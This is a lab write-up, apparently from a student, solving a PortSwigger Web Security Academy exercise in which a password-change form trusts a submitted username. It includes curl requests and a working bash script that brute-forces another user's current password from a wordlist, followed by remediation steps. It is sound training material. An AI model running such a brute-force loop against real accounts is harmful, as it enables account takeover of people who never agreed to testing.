








# Lab: Password Brute Force via Password Change

> **Platform:** PortSwigger Web Security Academy  
> **Module:** Authentication vulnerabilities  
> **Lab:** Password brute-force via password change  
> **Lab link:** https://portswigger.net/web-security/learning-paths/authentication-vulnerabilities/vulnerabilities-in-other-authentication-mechanisms/authentication/other-mechanisms/lab-password-brute-force-via-password-change#  
> **Goal:** Access Carlos' account after brute-forcing his password from the provided candidate password list.

---

## 1. Lab Goal

The goal of this lab was to access `carlos`' account by brute-forcing his password from the provided wordlist.

The normal login page had brute-force protection, so the solution was not simply to throw the password list at the login form. I had to find another place where password validation happened and where the brute-force protection was weaker.

---

## 2. Vulnerability Summary

The vulnerability existed in the password change functionality.

While logged in as `wiener`, the application allowed the `username` parameter in the password change request to be changed manually. This meant I could send a password change request using my own valid session cookie, but set:

```text
username=carlos
```

The application still processed the request. It did require a valid logged-in session cookie, but it did not properly verify that the account being modified matched the account belonging to the session.

So the vulnerable behavior was:

```text
Authenticated as wiener
Session belongs to wiener
Password change request says username=carlos
Application still accepts and processes the request
```

This allowed me to brute-force Carlos' current password through the password change endpoint instead of the normal login endpoint.

---

## 3. Given Information

The lab provided the following information:

1. Valid credentials:

```text
wiener:peter
```

2. Victim username:

```text
carlos
```

3. A candidate password list.
4. A brute-force vulnerability existed somewhere in the authentication flow.

---

## 4. Initial Observation

Like always, I started by messing around with the site to gather information first.

I opened the browser DevTools so I could monitor requests, responses, cookies, and form data. Then I logged in as `wiener:peter`.



After logging in, I saw that the application used a session cookie to protect authenticated pages. I was taken to the **My Account** page, where I found the password change functionality.



My first simple hypothesis was this:

> If we have a password list and a login page, why not brute-force the login POST request directly?

But this did not work because the login page had account lockout protection. After too many incorrect login attempts, the application blocked further attempts.



So I had to find another way around the login brute-force protection.

The password change functionality looked more interesting because it also checked a password. If I could abuse that check, I could brute-force Carlos' password from there.

---

## 5. Mistakes I Initially Made

At first, I thought about brute-forcing the normal login form because that is usually the most obvious place to test passwords.

But the login form had account lockout, so continuing with that approach would have wasted time. The better move was to look for another endpoint that accepted a password and did not behave the same way as the login form.

The password change endpoint was the important one because it accepted:

```text
username
current-password
new-password-1
new-password-2
```

That meant the application was checking the current password somewhere inside the password change flow.

---

## 6. Correct Testing Approach

The better approach was to test the password change functionality carefully while logged in as `wiener`.

I wanted to understand three things:

1. Whether a valid session cookie was required.
2. What happened when the current password was correct.
3. What happened when the current password was wrong.
4. Whether the `username` parameter could be changed from `wiener` to `carlos`.

The key question was:

> Does the server trust the `username` parameter from the request, or does it properly use the username from the session?

---

## 7. Testing the Password Change Functionality

### 7.1 Password change request for `wiener`

While logged in as `wiener`, I captured the password change request.

```bash
curl 'https://0a3600080455762b83e8c34d006a0027.web-security-academy.net/my-account/change-password' \
  --compressed \
  -X POST \
  -H 'Cookie: session=yMpxhxQRBEU7OWz7nm4lBI83HYB18PnH' \
  --data-raw 'username=wiener&current-password=peter&new-password-1=peter&new-password-2=peter'
```



This request used the following important values:

```text
username=wiener
current-password=peter
new-password-1=peter
new-password-2=peter
```

Since `peter` was the correct current password for `wiener`, the password change was successful.



One useful observation was that the application did **not** log me out after a successful password change. The same authenticated session was still valid.

---

### 7.2 Request without a session cookie

Next, I tested what happened if I removed the session cookie from the request.

Observation:

```text
If the session cookie was omitted, the application dropped/rejected the request.
```

So a valid logged-in session cookie was necessary for the password change request.

This meant the endpoint was not completely unauthenticated. I still needed to log in as `wiener` first to get a valid session.

---

### 7.3 Correct current password

When I sent the password change request with the correct current password for `wiener`, the application accepted it and showed a success message.

Observation:

```text
Correct current password = password changed successfully
```

Also, the application did not destroy the session after a successful password change.

---

### 7.4 Wrong current password

Then I tested with a wrong current password.

Observation:

```text
Wrong current password = application logged me out immediately
```

So after every wrong password change attempt, I had to log in again as `wiener` to get a fresh valid session.

This behavior was important for the final brute-force script.

---

## 8. Confirming the Vulnerability

After understanding the behavior for `wiener`, I tried changing the `username` parameter from `wiener` to `carlos` while still using `wiener`'s session cookie.

The request looked like this:

```bash
curl 'https://0a3600080455762b83e8c34d006a0027.web-security-academy.net/my-account/change-password' \
  --compressed \
  -X POST \
  -H 'Cookie: session=yMpxhxQRBEU7OWz7nm4lBI83HYB18PnH' \
  --data-raw 'username=carlos&current-password=peter&new-password-1=peter&new-password-2=peter'
```

Here, the session cookie belonged to `wiener`, but the request body targeted `carlos`:

```text
Cookie: session=<wiener-session>
username=carlos
```

The application accepted and processed the request, but because `peter` was not Carlos' current password, it sent me back to the login page.

This confirmed the vulnerability:

```text
The application did not verify that the username in the password change request matched the user in the session.
```

That meant I could brute-force Carlos' current password through this endpoint by repeatedly:

1. Logging in as `wiener`.
2. Getting a fresh session cookie.
3. Sending a password change request for `carlos`.
4. Testing one candidate password as Carlos' current password.
5. Repeating until the response showed that the password was accepted.

---

## 9. Exploitation Steps

The successful exploitation path was:

1. Open the lab and log in as `wiener:peter`.
2. Go to the **My Account** page.
3. Find the password change functionality.
4. Capture the password change request in DevTools.
5. Confirm that a valid session cookie is required.
6. Confirm that a wrong current password logs the user out.
7. Change the `username` parameter from `wiener` to `carlos`.
8. Confirm that the application still processes the request.
9. Write a script that logs in as `wiener` before every attempt.
10. Use each candidate password as Carlos' current password.
11. Detect the successful attempt.
12. Log in as `carlos` using the discovered password.
13. Solve the lab.

---

## 10. Brute-Force Script

Because the application logged me out after each wrong current password attempt, the script had to be multi-step.

For every password in the wordlist, it had to:

1. Log in as `wiener:peter`.
2. Extract the fresh `session` cookie.
3. Send a password change request for `carlos`.
4. Use the candidate password as:

```text
current-password=<candidate>
new-password-1=<candidate>
new-password-2=<candidate>
```

5. Check whether the response indicated success.



Here is the cleaned-up version of the script:

```bash
#!/usr/bin/env bash

HOST="https://0a3a0095047a29b0835a983600410057.web-security-academy.net"
WORDLIST="pass_list.txt"

while IFS= read -r p; do
    SESSION=$(curl -s -i "$HOST/login" \
        --compressed \
        -X POST \
        --data-raw 'username=wiener&password=peter' \
        | grep -i "Set-Cookie: session=" \
        | head -n 1 \
        | cut -d "=" -f2 \
        | cut -d ";" -f1)

    VALID_MESSAGE=$(curl -s "$HOST/my-account/change-password" \
        --compressed \
        -X POST \
        -H "Cookie: session=$SESSION" \
        --data-raw "username=carlos&current-password=$p&new-password-1=$p&new-password-2=$p")

    if [[ "$VALID_MESSAGE" != "" ]]; then
        echo "[+] Possible Password: $p"
        break
    fi
done < "$WORDLIST"
```

A small note: in my raw notes, the lab URL changed between requests because I was working with a different active lab instance. In the final script, I used a `HOST` variable so the URL only has to be changed in one place.

---

## 11. Evidence

### Valid login credentials

```text
wiener:peter
```

### Victim username

```text
carlos
```

### Normal login brute-force protection

The normal login page was not useful for brute-forcing because too many incorrect login attempts triggered account lockout.


### Password change request

The password change request included a user-controllable `username` parameter:

```text
username=wiener&current-password=peter&new-password-1=peter&new-password-2=peter
```

### Vulnerable modified request

I changed the target username to `carlos` while still using `wiener`'s authenticated session:

```text
Cookie: session=<wiener-session>
username=carlos&current-password=peter&new-password-1=peter&new-password-2=peter
```

This confirmed that the server was processing the request based on the submitted `username` parameter instead of safely binding the password change operation to the authenticated session user.

### Password found

After running the script, I found the password:

```text
matrix
```



### Final login

I logged in as:

```text
carlos:matrix
```

After logging in as Carlos, the lab was solved.



---

## 12. Remediation / Fix

The main issue was that the application trusted the `username` parameter in the password change request.

To fix this vulnerability, the application should not allow the user to decide which account is being modified through a request parameter like this:

```text
username=carlos
```

Instead, the server should derive the username from the authenticated session only.

For example:

```text
Session belongs to wiener
Password change operation applies only to wiener
```

The application should also:

- Verify that the current password belongs to the authenticated user.
- Ignore or remove user-controlled account identifiers from password change requests.
- Require re-authentication before sensitive actions like password changes.
- Apply rate limiting to password change attempts as well, not only the login page.
- Log and monitor repeated failed password change attempts.
- Use CSRF protection for password change forms.
- Invalidate other active sessions after a successful password change.

---

## 13. Lessons Learned

- Brute-force protection on the login page does not mean the whole authentication flow is protected.
- Any feature that checks a password can potentially become a brute-force target.
- Password change functionality should always bind the action to the authenticated session user.
- User-controlled parameters like `username` should not decide which account gets modified.
- When wrong attempts destroy the session, the brute-force script needs to re-login before each attempt.

---

## 14. Final Summary

This lab showed how password brute-forcing can be possible through a password change feature instead of the normal login form.

The normal login page had account lockout protection, so direct brute-forcing was not useful. After testing the password change functionality, I found that the application accepted a user-controlled `username` parameter and did not properly verify that the username matched the authenticated session.

Using `wiener`'s valid session, I targeted `carlos` in the password change request and brute-forced his current password from the provided wordlist. The script found the password `matrix`, and I logged in as `carlos:matrix` to solve the lab.
